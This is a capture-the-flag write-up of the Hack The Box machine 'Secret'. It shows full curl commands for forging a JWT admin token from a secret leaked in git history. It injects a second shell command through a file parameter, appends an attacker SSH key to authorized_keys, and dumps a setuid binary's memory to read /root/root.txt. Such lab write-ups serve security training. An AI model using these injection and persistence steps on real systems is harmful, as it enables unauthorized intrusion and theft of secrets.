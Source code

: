 ## Info

Secret is an easy level linux box hosted on HTB, which focuses on JWT exploitation and remote command injection.

IP: 10.10.11.120


# Fingerprinting

Let's start out with an nmap scan.

```
nmap -sC -sV $IP

Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-07 18:58 EST
Nmap scan report for secret.htb (10.10.11.120)
Host is up (0.19s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 97:af:61:44:10:89:b9:53:f0:80:3f:d7:19:b1:e2:9c (RSA)
|   256 95:ed:65:8d:cd:08:2b:55:dd:17:51:31:1e:3e:18:12 (ECDSA)
|_  256 33:7b:c1:71:d3:33:0f:92:4e:83:5a:1f:52:02:93:5e (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: DUMB Docs
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp open  http    Node.js (Express middleware)
|_http-title: DUMB Docs
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.10 seconds
```

Not too much out of the usual here, lets take a look at the website.

![img1-min](https://user-images.githubusercontent.com/72148770/160254513-ad728559-3d6f-405b-bade-759fe33c8b50.png)

Looks to be some sort of API that we have to interact with.

Let's scroll down to the bottom to download the source code, and start to follow the documentation.

In order to register a user, we must send a POST request to `http://$IP:3000/api/user/register`, along with some JSON data in order to create our account. I always like to stick to the format, so we'll keep our email domain as dasith.works
```curl -X POST -H 'Content-Type: application/json' -d '{"name":"userinky", "email":"inky@dasith.works", "password":"userinky"}' http://10.10.11.120/api/user/register
{"user":"userinky"}
```
The post request returns our username, so it seems to have gone through, we now have a valid account! Let's login!

```
curl -X POST -H 'Content-Type: application/json' -d '{"email":"inky@dasith.works", "password":"userinky"}' http://10.10.11.120:3000/api/user/login

IiwiaWF0IjoxNjQ2Njk4NDI1fQ.zh32hjab2xHlJd-WTDVuzksBneaenJpeJMLtFlExEME
```

Now we have a valid JWT token! Let's head over to https://jwt.io in order to take a look at what it does!

![img2](https://user-images.githubusercontent.com/72148770/160255022-59587e0a-2bd6-4a9c-92e4-821a03784140.png)


Let's try accessing the api/priv endpoint with our new token.

```
curl -H 'auth-token : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjI2OWVkZjE3YjcxZjA0NjE2YWNhMDMiLCJuYW1lIjoidXNlcmlua3kiLCJlbWFpbCI6Imlua3lAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ2Njk4NDI1fQ.bow0nys_azNS3CtuqQvmwWWEGTuhpk8sMZHMsHy9heo' http://$IP:3000/api/priv

Access Denied
```

Doesn't seem to work. When in doubt, check the source code!

After doing a quick, easy scan of the source code, I couldn't find anything. Maybe something in a previous commit?

```
git diff HEAD~2

diff --git a/.env b/.env
index fb6f587..31db370 100644
--- a/.env
+++ b/.env
@@ -1,2 +1,2 @@
 DB_CONNECT = 'mongodb://127.0.0.1:27017/auth-web'
-TOKEN_SECRET = gXr67TtoQL8TShUc8XYsK2HvsBYfyQSFCFZe4MQp7gRpFuMkKjcM72CNQN4fMfbZEKx4i7YiWuNAkmuTcdEriCMm9vPAYkhpwPTiuVwVhvwE
+TOKEN_SECRET = secret
```

Aha! The secret was removed in a previous version. Let's add that to the JWT decoder, (as well as changing my name to theadmin, you read the source code, right?) and make another request.

```
curl -H 'auth-token:eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjI2OWVkZjE3YjcxZjA0NjE2YWNhMDMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Imlua3lAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ2Njk4NDI1fQ.c-HkFLqjBX8Jypu-bGmFZNpUfTVXpggkWkAV75_febA' http://$IP:3000/api/priv/

{"creds":{"role":"admin","username":"theadmin","desc":"welcome back admin"}}`
```

There we go! I was expecting to get the user flag here, but we're still not there, so lets take a look around. After re-examining, the source code for a while, I discovered a potential RCE with the file parameter under /api/logs.

## RCE

```
curl -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjI2OWVkZjE3YjcxZjA0NjE2YWNhMDMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Imlua3lAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ2Njk4NDI1fQ.c-HkFLqjBX8Jypu-bGmFZNpUfTVXpggkWkAV75_febA' 'http://10.10.11.120/api/logs?file=index.js;id'
```

Looks like we're running under user dasith. We can leverage this RCE to add our own SSH keys to get a full shell on the machine. This is generally a formatting nightmare, as we need to make sure it's still in URL encoding. Starting out, we'll generate a new SSH keyset.

```
ssh-keygen -f secret.htb

Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in secret.htb
Your public key has been saved in secret.htb.pub
The key fingerprint is:
SHA256:LJetZl7jSHNO5IcXnXpdkRxfVmYpcSNSl1YebH4PJAQ kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|          E+o+o*%|
|            o.*@B|
|             o=+o|
|       . o   ..oo|
|      . S o . o.+|
|       o + . o .o|
|        * B + . .|
|       = O + .   |
|        o o      |
+----[SHA256]-----+
````

Now, to make things easier, let's export our SSH key to a variable.

`export SSHKEY=$(cat secret.htb.pub)`

Once that's done, we can begin crafting our command.

```
curl -i -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MjI2OWVkZjE3YjcxZjA0NjE2YWNhMDMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Imlua3lAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjQ2Njk4NDI1fQ.c-HkFLqjBX8Jypu-bGmFZNpUfTVXpggkWkAV75_febA' --data-urlencode "file=index.js;echo $SSHKEY >> /home/dasith/.ssh/authorized_keys"'http://10.10.11.120/api/logs'
```

Doesn't seem to work. After a while, finally found the issue. Since we have data, curl normally reads this as a POST request. Make sure it's a GET request, and we can ssh on in with

`ssh -i secret.htb dasith@secret.htb`

And we're in! User flag acquired, time to look at privilege escalation vectors.

After doing some poking around in the root directory, I found the `count` binary running with suid privileges. Time for some light binary exploitation.

Run the binary with `./count` and we can see what's up. The flag is always in /root/root.txt. so lets have that read it out for us. Unfortunately, we only get an access denied message. Next step is to attempt a memory dump. Let's run count again, but this time, background it when it asks us to save the results, then kill it and see if it drops a core dump for us to look through.


```
dasith@secret:/opt$ ./count
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ^Z
[2]+  Stopped                 ./count
dasith@secret:/opt$ ps
    PID TTY          TIME CMD
   3545 pts/3    00:00:00 bash
   3654 pts/3    00:00:00 count
   3657 pts/3    00:00:00 ps
dasith@secret:/opt$ kill -BUS 3654
dasith@secret:/opt$ fg
./count
Bus error (core dumped)
```

Crashes are usually saved in /var/crash, so let's go take a look!

Seems like we need to unpack the crash, I prefer apport, so let's unpack it and move it to a different directory.

`apport-unpack /var/crash/_opt_count.1000.crash /tmp/countcrash`

This is a binary file, so a dump would be pretty hard to read. Let's try `string`-ing CoreDump.

And there it is!

This works because it makes an insecure call, so we have the ability to view it in plaintext if we crash it before the program finishes.

We have our root flag, and have succesfully pwned Secret!
